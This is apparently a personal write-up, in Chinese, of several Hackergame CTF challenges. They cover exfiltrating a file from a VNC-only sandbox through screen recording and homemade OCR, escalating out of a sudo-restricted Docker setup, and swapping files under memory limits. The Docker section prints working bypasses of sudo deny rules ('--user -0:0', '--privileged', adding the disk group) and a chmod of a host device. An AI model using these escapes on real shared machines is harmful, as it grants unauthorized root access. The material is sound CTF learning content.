

# 个人题解 第三部分

## 15. 无法获得的秘密\*

小 A 有一台被重重限制的计算机，不仅没有联网，而且你只能通过 VNC 使用键鼠输入，看视频输出。上面有个秘密文件位于 `/secret`，你能帮他把文件**丝毫不差**地带出来吗？

### 做法

题目确实是一个网页上的 noVNC 界面。


noVNC 有剪贴板功能，但是服务端并不支持，所以没有用。我首先试了一下网上说的用 `vncconfig` 打开剪贴板，但还是没用。

我们先 `cat /secret` 看一眼，


看来是二进制文件。有没有什么办法以文本方式输出二进制文件呢？搜了一下，可以用 `hexdump /secret`。


这也太长了吧！手动抄写肯定是不行了。我猜这题正解应该是通过劫持 VNC 连接发送一些自定义数据 _（注：实际上不是）_，但是由于环境内并不能获得 `root` 权限，我想不到应该怎么做。

无论如何，先把 `sha256sum` 存下来，方便我们检验之后获得的文件是否正确。



把 `hexdump` 一页一页录下来进行 OCR 当然是个办法，但只是没有办法的办法。

我们知道，`hexdump` 的信息密度非常低，更加高效的方式应该把数据编码成 Pixel art 图片（类似二维码）传输。可惜，环境内并没有这样的工具。当然，环境有浏览器，我们确实可以用 HTML/JavaScript 实现一个这个装置，但环境有效时间只有 15 分钟，想要使用这个办法就要做一个将代码自动输入到 VNC 里面的程序，这肯定也不好做。不如，直接来野蛮的？

<a name="homemade-ocr"></a>

具体流程是这样：

1. 执行 `hexdump /secret | more`，显示一个能翻页的 `hexdump` 界面。
2. 录屏，然后快速翻页翻完整个 `hexdump`。
3. 从视频里抽取非重复帧。
4. 识别每个帧中的字符存为单独的文本文件。
5. 分析文本文件，整合成一份 `hexdump`。
6. 利用其他工具将 `hexdump` 还原回二进制文件。

快速翻页时因为网络卡顿原因可能会丢帧，但是 `hexdump` 左边的地址列弥补了这一问题：如果确实发生了丢帧，我们的程序可以通过地址列判断出来，并且告诉我们丢了哪些。然后只需要手动把这些找到并补上就好了。

#### 录制前的准备工作

为了保证识别的可靠性，我们有必要获取一份高质量的录屏。为了做到这一点，我们需要进行一些准备。

首先，我们注意到浏览器会缩放 VNC 界面，导致其出现一些模糊。因此，需要先将屏幕缩放比调整到 100%。


我们还希望按住 ArrowDown 就可以在 `more` 视图里自动向下滚动（这样就可以压键盘而不需要人工反复按键），但是 Windows 的默认滚动速度太快了，容易造成丢帧过多，因此需要在控制面板里降低自动重复按键的速率。


众所周知，常规的 MPEG 等视频编码画质损失可能是非常严重的。我们需要设置 OBS Studio，确保录屏尽可能无损。这里需要注意，OBS Studio 的基础视频输出预设中的“无损”也并非无损，画质损失仍然很严重。这里我们开启高级设置，选择 NVENC HEVC 编码器，并手动选择无损。


为了避免文件太大，输出分辨率可以设置成 800x600，但是画布分辨率要和输出分辨率一致，避免发生缩放。

这些就是准备工作的全部了。

#### 录制视频

接下来，启动 VNC 连接，打开终端，并将终端窗口放到不会被 noVNC 工具栏阻挡的位置。在 OBS Studio 添加显示器采集（不要显示鼠标指针），按住 Alt 拖动锚点，大致框选终端所在区域。


框选时务必保证按住 Alt 拖动，不要意外缩放视频对象，严格确保按照像素 1:1 输出视频。

然后在终端中输入 `hexdump /secret | more`，打开 `more` 界面。


按下功率。是的，你正在成功，请坐和放宽！


#### 提取帧

通过搜索不难知道，可以直接用 ffmpeg 提取视频内的场景（在我们这个情况下就是非重复帧）。

```plain
ffmpeg -i secret-video-1.mkv -vsync vfr -filter_complex "select=gt(scene\,0.01)" "frames/1-%04d.png"
```

需要特别注意，上面的帧提取方法**不会输出第一帧**。我们将第一帧通过视频播放器手动截取出来，命名为 `1-0000.png`。还要注意，千万不能用 `jpg` 格式，不然前面的无损录制功亏一篑。

这样就提取好了。由于进行了严谨的准备工作，我们获得了非常漂亮的图片。


可以看到，这里所有相同的字符都长得一样（从像素级别上来讲），就算使用传统图像识别方法，可靠性也非常高了。

#### 识别图片

接下来我们可以用 OCR 来识别图片。但是，经测试，即使将黑色的终端部分截取出来，常用的 OCR 库还是不能准确把握文字的位置关系，甚至会偶尔出现错字。这肯定是不能接受的。鉴于我们获得的图片非常完美，可以考虑用传统的图像处理方法手搓一个 OCR。

这个 OCR 任务的关键是字符的位置关系。但是，终端使用是等宽字体，所以这是非常容易处理的。首先，我们要将每一帧中的终端区域截取出来。由于是同一个视频，只需要人工给定一组截取坐标即可。

```plain
def crop_terminal_part(img: Image.Image, video_id: int):
    if(video_id == 1):
        return img.crop((73, 76, 543, 510))
    else:
        raise ValueError(f"Unknown video_id {video_id}")
```

接下来可以将有白色像素的坐标投影到两坐标轴上，并识别出区间。这些区间组成的网格可以准确确定每个字符的边界框，方便直接截取字符进行识别。


注意到第一张图片的第六列直接包含了 `0`~`f` 十六种字符。我们将这些字符截取出来作为样本。

```python
# Save sample masks
for cy in range(0, 16):
    cx = 5
    filename = hex(cy)[2:]
    mask = img.crop((col_range[cx][0], row_range[cy][0], col_range[cx][1], row_range[cy][1]))
    mask.save(f"sample-masks/{filename}.0.png")
```

另外添加一个全黑的样本。


之后，对于截取出的字符，我们可以直接通过[模板匹配（Template Matching）](https://blog.csdn.net/m0_37579176/article/details/116950903)进行识别。模板匹配算法需要四层循环，用 Python 写会很慢，识别一整个帧需要将近一分钟。[提高 Python 速度的最好方法是完全避免使用 Python](https://zh.d2l.ai/chapter_deep-learning-computation/model-construction.html#id6)，因此我们直接用 OpenCV 的模板匹配功能。

```python
def detect_one_char(cropped_cv2_img):
    best_score, second_best_score = 9e9, 9e9
    best_match = None
    for mask_meta in sample_masks:
        char = mask_meta[0]
        if char == 'void': char = ' '
        current_score = 9e9
        for mask in mask_meta[1:]:
            result = cv2.matchTemplate(cropped_cv2_img, mask, cv2.TM_SQDIFF_NORMED)
            (minVal, maxVal, minLoc, maxLoc) = cv2.minMaxLoc(result)
            current_score = min(current_score, minVal)
        if current_score <= best_score:
            second_best_score = best_score
            best_score = current_score
            best_match = char
        elif current_score <= second_best_score:
            second_best_score = current_score
    confidence_ratio = 9e9
    if best_score != 0:
        confidence_ratio = second_best_score / best_score
    if confidence_ratio < 1.5:
        return (best_match, confidence_ratio)
    return best_match
```

在完成图片识别的全部逻辑后，我们写程序批量处理所有帧，并将每个帧的内容单独输出为[文本文件](./vnc-secret/output/1-0000.txt)。完整的程序见[此处](./vnc-secret/data-extract.ipynb)。

为了切实保障识别的可靠性，程序里做了特殊的安全检查，具体是：

- 如果一帧里面的列数不等于 39（32 个字符加上地址列中的 7 个），直接报错。
- 如果一帧里面最大的字符边界框和最小的字符边界框差别过大，直接报错。
- 如果识别字符时置信比例（见代码）不及 1.5，直接报错。
- 如果识别到空格字符，直接报错。
- 如果识别出来的地址列并非每行递增 `0x10`，直接报错。

总之遇到异常情况就报错。Errors should never pass silently, 想要丝毫不差的重建出文件，不能出一点差错。

#### 丢帧检测 & 文本文件整合

接下来就是整合文本文件。具体做法是以地址列为键，以后面的十六进制串为值，将所有的文本数据存进去，然后从头到尾扫一遍检查缺少哪些内容。

```python
max_addr = 0
addr_content_map = {}
for name in os.listdir('output'):
    filename = f"output/{name}"
    lines = open(filename, 'r', encoding='utf-8').read().split("\n")
    for line in lines:
        if line.strip() == '': continue
        addr_spec = line.split(' ')[0]
        addr = int(addr_spec, 16)
        addr_content_map[addr] = line[len(addr_spec) + 1:]
        max_addr = max(max_addr, addr)

os.makedirs('dist/', exist_ok=True)
dump_fp = open('dist/secret.hexdump', 'w', encoding='utf-8')

seg_start = None
for addr in range(0, max_addr + 32, 16):
    rest_spec = ''
    if addr <= max_addr:
        rest_spec = addr_content_map.get(addr)
        dump_fp.write(f'{hex(addr)[2:].zfill(7)} {rest_spec}\n')
    if None == rest_spec and seg_start == None:
        seg_start = addr
    if None != rest_spec and seg_start != None:
        print(f'Missing segment ({hex(seg_start)}, {hex(addr)})')
        seg_start = None

dump_fp.close()
print(f'max_addr: {hex(max_addr)}')
```

```plain
Missing segment (0x151d0, 0x154b0)
Missing segment (0x15620, 0x15900)
Missing segment (0x20e20, 0x20f90)
Missing segment (0x2e8a0, 0x2ea10)
Missing segment (0x32ac0, 0x32c30)
Missing segment (0x4fb10, 0x4fc80)
Missing segment (0x4ff60, 0x500d0)
Missing segment (0x527a0, 0x52910)
Missing segment (0x65f90, 0x66100)
Missing segment (0x6c150, 0x6c2c0)
Missing segment (0x6f960, 0x6fad0)
Missing segment (0x73000, 0x73170)
Missing segment (0x76980, 0x76af0)
max_addr: 0x7fff0
```

确实丢了些帧，但是不多。我们回到 VNC，找到这些部分，然后手动截图（注意显示缩放比仍然需要调到 100%），存为 `2-%04d.png`，然后更新一下图片裁剪逻辑（因为手动截图保证只包含终端黑色区域，不需要再次裁剪）。

```python
def crop_terminal_part(img: Image.Image, video_id: int):
    if(video_id == 1):
        return img.crop((73, 76, 543, 510))
    elif(video_id == 2):
        return img
    else:
        raise ValueError(f"Unknown video_id {video_id}")
```

把这些图也识别出来，然后重新整合。

```plain
max_addr: 0x7fff0
```

这次对了，我们的文件输出到了 `dist/secret.hexdump`。

#### 还原二进制文件

最后就是通过 `hexdump` 还原二进制文件。上网搜索得知可以使用 `xxd` 命令。

```plain
xxd -r secret.hexdump > secret
```


_（Windows 为什么有 `xxd` 呢？因为安装了 busybox。当然，你也可以用 Git Bash 里面的那个）_

看起来是对了，可为什么 hash 对不上呢？我们再 `hexdump` 一下我们获得的文件。


字节序反了！那只能自己写逻辑来重建文件了。

```python
dump_fp = open('dist/secret.hexdump', 'r', encoding='utf-8')
secret_fp = open('dist/secret', 'wb')

for line in dump_fp.read().split("\n"):
    if line.strip() == '': continue
    for hex_int16 in line.split(" ")[1:]:
        bytes_int16 = bytes.fromhex(hex_int16[2:4] + hex_int16[0:2])
        secret_fp.write(bytes_int16)

secret_fp.close()
dump_fp.close()
```

_（注：事实上把这个反了的 `hexdump` 文件再 `xxd` 一次就倒回来了，但是当时没想到）_


你过关！

### Flag

```plain
flag{SeCret_cAN_B3_Le4K3d_FrOm_R3s7RIc7Ed_Env_1b98b1a5d4}
```

Secret can be leaked from restricted env.\
废话。不过说实话这个 env 可以直接录屏还算友好了，~~真正的涉密计算机可不会允许你截图或者拍屏~~。

吐槽一下 flag 的显示方式，我纳闷了半天为什么传不上去，瞄了一眼右下角才发现。


### 其他做法

#### 二维码

预期解就是自己编写网页，用浏览器打开，将秘密文件编码成某种二维码，然后截图解码。不过二维码需要有一定的鲁棒性，因为 noVNC 是有损视频传输，色彩可能还会受到颜色配置文件等因素的影响。

#### 脉冲编码

有的选手提出，在环境内进行更改分辨率、切换 Scroll Lock 等操作时，noVNC 中会直接出现（通过脚本容易观测到的）JavaScript 事件或者 DOM 变化，这样可以通过脉冲来编码和传递信息。

这么做仍然需要在环境内写一些代码，但不多。不过这种做法可能仍然需要较多时间来传输（较为高效的分辨率方法也需要十万量级的脉冲周期），并且也可能受到网络波动影响导致出现丢帧，因此该方法的有效性存疑。

## 16. Docker for Everyone Plus\*

X 是实验室机器的管理员，为了在保证安全的同时让同学们都用上 Docker，之前他直接将同学的用户加入 `docker` 组，但在去年参加了信息安全大赛之后，他发现将用户加入 `docker` 用户组相当于给了 root 权限。于是他想到了一个好方法，只授予普通用户使用 `sudo` 运行特定 Docker 命令的权限，这样就不需要给同学完整的 `sudo` 权限，也不用将同学加入 `docker` 组了！

但果真如此吗？

提供的环境会自动登录低权限的 `user` 用户。登录后可以通过特定的 `sudo docker` 命令使用 Docker，通过 `sudo -l` 可以查看允许提权执行的命令。读取 `/flag`（注意其为软链接）获取 flag。

提供的环境中有 `rz` 命令，可以使用 ZMODEM 接收文件。

注：两问中的 `sudo -l` 限制分别如下，

```plain
(root) NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, /usr/bin/docker
    image load, !/usr/bin/docker * -u0*, !/usr/bin/docker * -u?0*,
    !/usr/bin/docker * --user?0*, !/usr/bin/docker * -ur*, !/usr/bin/docker
    * -u?r*, !/usr/bin/docker * --user?r*
```

```plain
(root) NOPASSWD: /usr/bin/docker run --rm --security-opt\=no-new-privileges
    -u 1000\:1000 *, /usr/bin/docker image load, !/usr/bin/docker * -u0*,
    !/usr/bin/docker * -u?0*, !/usr/bin/docker * --user?0*,
    !/usr/bin/docker * -ur*, !/usr/bin/docker * -u?r*, !/usr/bin/docker *
    --user?r*, !/usr/bin/docker * --privileged*, !/usr/bin/docker *
    --device*
```

### 做法

这个环境的主机是个虚拟机环境，不是容器（做完了就会知道这是有原因的），启动需要亿点时间。稍微尝试一下可以发现，这个环境里没给任何默认 Docker 镜像，必须要用户通过 `rz` 自己上传。

#### 最难的部分：解决 `rz` 文件上传问题

`rz` 怎么用呢？先试一下，


好像不对。

网上搜索（rz 上传文件），解释基本都是如下：

> rz：运行该命令会弹出一个文件选择窗口，从本地选择文件上传到Linux服务器。使用rz -y 命令时会弹出选择文件对话框

可是一个命令怎么能在客户端上弹窗口呢？肯定需要客户端软件支持。确实，许多这么写的文章声称需要用 Xshell 或者 SecureCRT 软件，但它们都是付费的专有软件。难道为了这个还要去下载绿色破解版的软件吗？

用英文搜索（windows terminal emulator with zmodem support），发现了一个开源的终端模拟器 [Tabby](https://tabby.sh/)。在其主页上搜索 `zmodem`，发现 Feature list 中确实提到了支持 ZModem 传输。试试看？


好像还是没用。可能是不能直接 `nc` 连接，要在 Tabby 里面将这个配置为一个远程服务器才行。几经折腾，发现这样的 Telnet 配置才能使得终端显示和输入功能都正常。


上传个东西试试？


Rejected? 为什么呢？去 Issues 里面搜索也未果。

据考证，这是因为题目环境的 `~` 目录是只读的。到 `/tmp` 下面上传就行了。


_（这个“考证”听起来有点玄乎，实际上也一点都不简单，整个过程包括了反复调节 Telnet 配置、试图在 `rz` 上加各种参数，以及反复安装卸载学习版的 Xshell 和 SecureCRT，以及搜索网上的各种文章，直到我心血来潮决定 `touch` 一下。浪费的时间至少 3 小时。）_

但是，上传较大的文件似乎会在到达 100% 后卡一段时间，应该是服务器需要时间处理文件。经过测试，可能只能上传 15MB 以内的文件。如果要有充足时间在上传继续实验，文件大小需要控制在 5MB 以内。

> **@lsy**: 我被文件上传问题卡了一天。这个环境启动还贼慢，搞得我那天打了好长时间的皇室战争。

#### 先跑一个容器起来再说

我们需要上传一个足够轻量的基础镜像，而 `alpine` 镜像打包成 `tar` 只有 9MB，非常合适。经过测试，环境内有 `gzip`，因此我们还可以上传 `tar.gz` 文件，这样就只有 3MB 了。

根据 `sudo -l` 限制，`docker image load` 不能带任何参数，而 `docker run` 需要这样开头： `docker run --rm -u 1000:1000`。这强制要求我们使用低权限的 uid 1000 运行容器。

上传文件 `alpine.tar.gz` 到 `/tmp` 后，执行这些就可以导入镜像并运行。[书接上回](https://github.com/yezhiyi9670/hackergame-2023-personal-writeup/blob/master/docker-escalation/README.md)，上次我们在 Docker 题目中将主机的根目录直接挂载到了容器里，所以这次也这么做。

```plain
gzip -d alpine.tar.gz
sudo docker image load < alpine.tar
sudo docker run --rm -u 1000:1000 -v /:/host -it alpine
```

于是容器就顺利跑起来了。我们探索一下：

```plain
~ $ whoami
whoami: unknown uid 1000
~ $ cd /host
/host $ ls -l
...
lrwxrwxrwx    1 root     root             9 Oct 15 09:17 flag -> ./dev/vdb
...
/host $ cd dev
/host/dev $ ls -l
...
brw-rw----    1 root     disk      253,  16 Nov  9 16:40 vdb
...
```

#### 子任务 1

根据惯例，在 `docker run` 命令后添加新的 `-u` 参数可以覆盖前面指定的 uid 1000，但是 sudo 的限制使得我们无法指定用户为 root：

```plain
!/usr/bin/docker * -u0*
!/usr/bin/docker * -u?0*
!/usr/bin/docker * --user?0*
!/usr/bin/docker * -ur*
!/usr/bin/docker * -u?r*
!/usr/bin/docker * --user?r*
```

我们看到 `/flag` 指向的是 `/dev/vdb` 设备块，而 `/dev/vdb` 的属组是 `disk`。`/dev/vdb` 的读取权限是对用户组开放的，因此不需要指定容器用户为 `root`，只需要指定用户组 `disk` 就有读取权限了。

```plain
dockerv:/tmp$ sudo docker run --rm -u 1000:1000 --user 1000:disk -v /:/host -it alpine
~ $ cat /host/dev/vdb
cat: can't open '/host/dev/vdb': Operation not permitted
```

这次不是 Permission denied 了，但是出现了 Operation not permitted。查阅资料得知，Docker 默认不允许容器对设备块进行操作。那怎么办呢？子任务 2 的 sudo 限制给出了提示：

```plain
!/usr/bin/docker * --privileged*
!/usr/bin/docker * --device*
```

子任务 2 不让用，那说明子任务 1 可以用。继续查阅资料，这个参数的用法是 `--privileged=true`，并且确实会授予操作设备块的能力。

```plain
dockerv:/tmp$ sudo docker run --rm -u 1000:1000 --user 1000:disk -v /:/host --privileged=true -it alpine
~ $ cat /host/dev/vdb
flag{dONT_1OAD_uNTRusT3D_1ma6e_a8b2d63192_plz!}
```

#### 子任务 2

我们将 Tabby 配置文件中的端口号改为 `10340`，连接子任务 2 的环境。除了不能用 `--device` 和 `--privileged` 之外，还有额外的要求：

```plain
/usr/bin/docker run --rm --security-opt=no-new-privileges -u 1000:1000 *
```

加了一个 `--security-opt=no-new-privileges`。网络搜索得知，这可以防止通过 [suid 机制](https://blog.csdn.net/MssGuo/article/details/120754324)获取 root 权限。如果没有这个限制，选手自行打包一个 `/bin/sh` 设置了 `suid` 权限的镜像，并通过在容器内打开 `/bin/sh` 获得 root。

进一步查看 `docker run` 提供的选项，我们发现了 `--cap-add` 可以为容器添加额外的 capabilities。Capabilities 意味“能力”，即 root 用户所具有的各种超能力，可以被细粒度地授予给普通用户。通过添加 `CAP_SETUID` 能力并解除对 `setuid` 系统调用的限制，普通用户可以直接通过 `setuid` 将自己转变为 root 身份，实现提权（[出处](https://www.cnblogs.com/f-carey/p/16026088.html)）。

```plain
sudo docker run --rm --security-opt=no-new-privileges -u 1000:1000 --cap-add=SETUID --security-opt seccomp=unrestricted -v /:/host -it alpine
```

然后额外编译一个能够执行 `setuid` 并启动 `/bin/sh` 的二进制程序，在容器内执行。很遗憾，不知为何，这种方法没有用（可能也是因为 `--security-opt=no-new-privileges`）。使用 `setuid` 依旧出现 Operation not permitted。

Capabilities 还有其他可玩之处，例如添加 `CAP_FOWNER` 和 `CAP_CHOWN`，理应可以无视文件的原有所有者并夺取文件所有权，但是这也没有成功。试图 `chown` 仍然出现 Operation not permitted。

<a name="sparks"></a>

似乎没有别的获取权限的办法了。就这样吧…… 

灵机一动！uid 不是整数类型的吗？众所周知，不像浮点数，整数的 +0 和 -0 就是一个东西。既然你不让我指定 uid 为 `0`，那我用 `-0` 不就行了吗？

```plain
dockerv:/tmp$ sudo docker run --rm --security-opt=no-new-privileges -u 1000:1000 --user -0:0 -v /:/host -it alpine
~ # cat /host/dev/vdb
cat: can't open '/host/dev/vdb': Operation not permitted
```

成功获取 root shell！可是这是在容器内，依旧不能读设备块，怎么办呢？我都有 root 了，总该做点什么吧…… 是时候拿出 Linux 用户的祖传秘技了：


```plain
/ # chmod 777 /host/dev/vdb
/ # exit
dockerv:/tmp$ cat /dev/vdb
flag{contA1N3R_R0ot_i5_4cCESsIb1e_542416c966}
```

不出意外的话，这个是非预期解了。同样的方法也可以用于子任务 1。

### Flags

```plain
flag{dONT_1OAD_uNTRusT3D_1ma6e_a8b2d63192_plz!}
flag{contA1N3R_R0ot_i5_4cCESsIb1e_542416c966}
```

Don't load untrusted image plz!\
我寻思我也没加载什么奇怪的镜像啊

Container root is accessible.\
确实，虽然方法似乎不太正常

使用 `sudo` 策略来限制 Docker 提权确实是很难做到有效的。官方题解中也提到了这一点：

> 然而今年我看到有实验室集群使用受限 sudo 的方案来让大家能使用 Docker，但这种方案要处理的 corner case 很多，难以正确实现。

事实上，靠构造奇怪的命令行参数来绕过限制的非预期解，我到目前已经见过三种了：`-u -0:0`、`-xxxu0:0`（`xxx` 是一些别的无关 short options）以及 `--security-opt=no-new-privileges:false`。

那么，如何正确地做到 Docker for Everyone 呢？还是上次提到的 Rootless container 吗？

### 批评

与寻找提权方式相比，这题更困难的或许还是让 `rz` 能够正常工作。据我所知，许多选手都在这上面浪费了不少时间，甚至选择放弃。就连题目作者也不知道 Windows 下有什么工具可以支持 `rz` 接收文件。

> 至于 Windows 用户，我也不知道咋上传。


如果选手使用 Windows 上非常常见的专有远程终端软件 Xshell，甚至会因为 bug 根本无法上传文件（虽然 SecureCRT 和 Tabby 可以），或许是 `rz` 版本的问题。此外，还有一个更大的坑，就是 `~` 目录只读，容易导致用户误以为传输失败是工具配置或者网络问题。

> 其中一个坑点是需要在 `/tmp`（或者其他 tmpfs）下面接收数据，因为其他部分是只读文件系统。sz 只会显示 "skipped: xxx" 而不会显示传输失败原因。

`rz` 这种扭曲的文件上传方式不应该出现在这种题目中（至少不应该不给选手任何关于如何上传的指导）。题目作者也承认，使用 `rz` 是工期紧张导致的权宜之计。

> 因为工期比较紧张，所以最后用了 ZMODEM 这种比较低效的方法处理，网页 nc 也没有做相关的逻辑。之后如果还有 ZMODEM 的题目的话可能会考虑做一下网页端的处理，当然更有可能是用更加正常的协议来做文件上传。

还希望以后命题组多留点时间进行适配与测试。虽然这是 Hackergame，但还是不应该让选手在这种琐碎且与题目核心内容无关的地方赤石。

## 17. 看不见的彼方：交换空间

[两年过去了](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/official/%E7%9C%8B%E4%B8%8D%E8%A7%81%E7%9A%84%E5%BD%BC%E6%96%B9/README.md)，今年，Alice 和 Bob 再次来到了 Hackergame 的赛场上。这一次，他们需要在各自的 `chroot(2)` 的限制下，将自己手头 tmpfs 里面（比较大的）文件交给对方。

好消息是，这次没有额外的 `seccomp(2)` 限制，但是，他们所处的容器环境的 rootfs 是只读的，并且内存也是有限的，所以如果再复制一份的话，整个容器就会被杀死。Alice 和 Bob 希望请你帮助他们解决这个难题。

对于本题的第一小题，两个文件（`/home/pwn/A/space/file` 和 `/home/pwn/B/space/file`）大小均为 128 MiB。你需要在你的程序运行完成后使两者的内容互换。

对于本题的第二小题，Alice 有一个 128 MiB 的文件（`/home/pwn/A/space/file`），Bob 有两个 64 MiB 的文件（`/home/pwn/B/space/file1` 和 `/home/pwn/B/space/file2`）。你需要在你的程序运行完成后实现（原始文件 -> 交换后的文件）：

- `/home/pwn/A/space/file` -> `/home/pwn/B/space/file`
- `/home/pwn/B/space/file1` -> `/home/pwn/A/space/file1`
- `/home/pwn/B/space/file2` -> `/home/pwn/A/space/file2`

容器内存限制 316 MiB，你提交的程序文件会复制为两份，分别占用一份内存空间。环境限制总 PID 数为 32。对于 chroot 内部的进程，只有 `/space` 可读写。`/space`（`/home/pwn/A/space/` 和 `/home/pwn/B/space/`）为 tmpfs，使用内存空间。

### 做法

[两年前，我们用了共享内存解决看不见的彼方问题](https://github.com/yezhiyi9670/hackergame2022-writeup/blob/master/solution/solution-pure.md#26-%E7%9C%8B%E4%B8%8D%E8%A7%81%E7%9A%84%E5%BD%BC%E6%96%B9-300)，现在我们接着用，代码也是先抄过来。

#### 共享内存同步装置

由于内存限制，这次的任务大概必须双方进行多轮通信，因此需要一些同步机制。共享内存并不自带同步机制，所以我们先写个信号收发装置。

```c
/* --- comm.h, extra --- */

/**
 Signaling address space

 shm_addr + 0: Char values. Non-zero value indicates that the message has arrived.
 shm_addr + 4: A int32 value. Size of the message. Negative value indicates that there is no further message.
 shm_addr + 8: The message buffer.
 */

#define SIG_MSG_SIZE (8 * 1024 * 1024)
// #define SIG_MSG_SIZE (50)
#define SIG_BUFFER_SIZE (SIG_MSG_SIZE + 256)

// Clear message for both sides
void sig_init(char *shm_addr);

// Get the beginning of the message buffer.
char *sig_buffer(char *shm_addr);

// Wait until message is cleared. Write size info and set the semaphore byte.
void sig_invoke(char *shm_addr, int identifier, int size);

// Block until message is available, clear the semaphore byte and return its size.
int sig_wait(char *shm_addr, int identifier);
```

这个装置可以支持互发信号并附带一个 `size`。获得 `size` 后，接收者可以从 `shm_addr + 8` 自行读取数据。从 `shm_addr + 0` 开始到 `shm_addr + 3` 都是同步标志位，用 `identifier` 参数区分，因此有四个槽位可以用来发同步信号（虽然同时只能有一个 `size`，但多个槽位可以有效避免 Alice 发了消息之后自己接收，Bob 没收到的问题），足够完成我们的双方通信任务。

实现代码见[此处](./file-exchange/workspace/comm.c)。

#### 子任务 1

第一个子任务非常简单，只要双方开一个 8MiB 的共享内存区，并且各自开一个 8MiB 的临时缓冲区，然后每次交换各自文件中相同地址处的 8MiB 数据并各自写入即可。

同步后的循环工作流程：

- Alice 读取自己文件中至多 8MiB 数据到共享内存区 `buf`；
- Alice 发送信号给 Bob，附带刚刚读取到的数据大小；
- Bob 将共享内存区 `buf` 中的数据拷贝到自己的临时缓冲区 `tempbuf`；
- Bob 读取自己文件中至多 8MiB 数据到共享内存区 `buf`；
- Bob 发送信号给 Alice，附带刚刚读取到的数据大小；
- 双方同时写入文件：
  - Alice 将共享内存区中（来自 Bob）的数据写到自己文件中刚刚被读取的区域；
  - Bob 将临时缓冲区中（来自 Alice）的数据写到自己文件中刚刚被读取的区域；
- 如果本轮中双方互发的数据大小都为 0（说明双方都已到达文件末尾），结束工作；
- 否则双方文件指针各向前推进 8MiB，准备交换下一个数据块。

```c
/* --- alice.c, part --- */

    FILE *fp = fopen(my_file, "rb+");
    int total_received = 0;
    int ptr = 0;
    while(1) {
        fseek(fp, ptr, SEEK_SET);
        int send_size = fread(buf, 1, SIG_MSG_SIZE, fp);
        sig_invoke(shm_addr, 1, send_size);
        printf("Alice: Sent %d bytes to Bob.\n", send_size);
        // (Bob processes the message now)
        int rcev_size = sig_wait(shm_addr, 2);
        printf("Alice: Received %d bytes from Bob.\n", rcev_size);
        // Now Alice has a Bob's copy in buf
        if(rcev_size > 0) {
            total_received += rcev_size;
            fseek(fp, ptr, SEEK_SET);
            fwrite(buf, 1, rcev_size, fp);
        }
        printf("Alice: Writing finished.\n");
        // Tell if the exchange has ended
        if(rcev_size == 0 && send_size == 0) {
            break;
        }
        ptr += SIG_MSG_SIZE;
    }
    fclose(fp);

    truncate(my_file, total_received);
    printf("Alice: Total %d bytes received.\n", total_received);
```

```c
/* --- bob.c, part --- */

    FILE *fp = fopen(my_file, "rb+");
    int total_received = 0;
    int ptr = 0;
    while(1) {
        int rcev_size = sig_wait(shm_addr, 1);
        printf("Bob: Received %d bytes from Alice.\n", rcev_size);
        if(rcev_size > 0) {
            // Copy into tempbuf
            for(int i = 0; i < rcev_size; i++) {
                tempbuf[i] = buf[i];
            }
        }
        // Now read the file and send out
        fseek(fp, ptr, SEEK_SET);
        int send_size = fread(buf, 1, SIG_MSG_SIZE, fp);
        sig_invoke(shm_addr, 2, send_size);
        printf("Bob: Sent %d bytes to Alice.\n", send_size);
        // Now Bob has an Alice's copy in tempbuf
        if(rcev_size > 0) {
            total_received += rcev_size;
            fseek(fp, ptr, SEEK_SET);
            fwrite(tempbuf, 1, rcev_size, fp);
        }
        printf("Bob: Writing finished.\n");
        // Tell if the exchange has ended
        if(rcev_size == 0 && send_size == 0) {
            break;
        }
        ptr += SIG_MSG_SIZE;
    }
    fclose(fp);

    truncate(my_file, total_received);
    printf("Bob: Total %d bytes received.\n", total_received);
```

注意到这里写完文件后进行了裁剪（`truncate`），这是为了保证双方要交换的文件大小不同时程序仍然能正常工作（为了方便，本地用于测试的文件是两个不保证大小相同的文本文件，单次交换数据为 50 字节）。

这个裁剪，为下一个子任务埋下伏笔。

#### 子任务 2

子任务 2 的一种思路就是 Bob 先将两个文件合成一个，然后双方使用之前子任务 1 的逻辑交换文件，完成后 Alice 将文件拆成两个。

众所周知，一般来说拆分和合并文件需要复制数据。这个问题的关键在于，如何在复制数据到新文件的同时逐步释放原来文件占用的空间。`ftruncate` 裁剪文件就是一个办法。我们可以先从文件尾部读出数据到缓冲区，然后把刚刚读的部分裁剪掉，再把缓冲区内的东西倒序写入另一个文件末尾，如此循环，直到原来的文件被裁空。完成复制后，我们获得了原来文件的倒序版。这有点类似将数据从一个栈倒入另一个栈中。

```c
// Copy a file, reverse it and move to another in a truncating manner.
void reverse_file_truncating(const char *src, const char *dst);
```

这个函数声明现在还只能实现文件倒序。要实现拆解与合并文件，我们需要添加两项参数：

```c
int lower_limit,  // 不将源文件裁空，而是裁到这个大小就停止
bool appending    // 如果目标文件已经存在，在目标文件后追加数据而非覆盖
```

实现见[此处](./file-exchange/workspace/commons.c)。

这样，双方就可以利用这个基础“栈操作”在不爆内存的情况下实现文件合并和拆分。

```cpp
/* --- bob.c, part --- */

    ///<problem-2-exclusive>
    // Combine the two files into one
    reverse_file_truncating(my_file_2, my_file_temp, 0, false);
    reverse_file_truncating(my_file_1, my_file_temp, 0, true);
    reverse_file_truncating(my_file_temp, my_file, 0, false);
    printf("Bob: Files combined.\n");
    ///</problem-2-exclusive>
```

```cpp
/* --- alice.c, part --- */

    ///<problem-2-exclusive>
    // Split the file into two
    reverse_file_truncating(my_file, my_file_temp, 0, false);
    reverse_file_truncating(my_file_temp, my_file_1, total_received / 2, false);
    reverse_file_truncating(my_file_temp, my_file_2, 0, false);
    printf("Alice: Files split.\n");
    ///</problem-2-exclusive>
```

此题使用的所有完整代码见[此处](./file-exchange/workspace/)。

### Flags

```plain
flag{just A p1ece 0f cake_978079816b}
flag{fa1I0catiIling_1NChains_15fun_2fbd64fb85}
```

Just a piece of cake!\
雀食

fallocating in chains is fun!\
`fallocate`? 这似乎是一种可以在文件上打洞的方式，也可以实现在复制数据时释放原来的空间。这是原本的预期解。

## 20. 不太分布式的软总线

> \<AI 辅助胡说八道内容\>

（以上内容由大语言模型辅助胡说八道，如有雷同纯属巧合）

--

当然了，上面的论述是在瞎扯淡，不过说到 DBus，小 T 最近写了一个小程序挂在了 **DBus 系统总线**上。你能拿到小 T 珍藏的 3 个 flag 吗？

